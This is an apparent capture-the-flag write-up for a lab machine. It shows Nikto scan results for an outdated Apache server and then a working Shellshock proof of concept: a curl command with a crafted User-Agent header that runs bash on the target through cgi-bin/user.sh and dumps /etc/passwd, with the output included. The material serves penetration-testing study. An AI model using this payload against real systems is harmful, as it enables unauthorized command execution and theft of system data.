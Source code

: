 ```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.56
+ Target Hostname:    10.10.10.56
+ Target Port:        80
+ Start Time:         2021-08-14 13:49:49 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
```

With the information that we are using an outdated `Apache` version and the presence of `cgi-bin/user.sh` file (plus the name of course!!), we can reasonably suspect that this box is vulnerable to Shell Shock exploit. We will first test a POC for the exploit. 

```
┌──(kali㉿kali)-[~]
└─$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
```
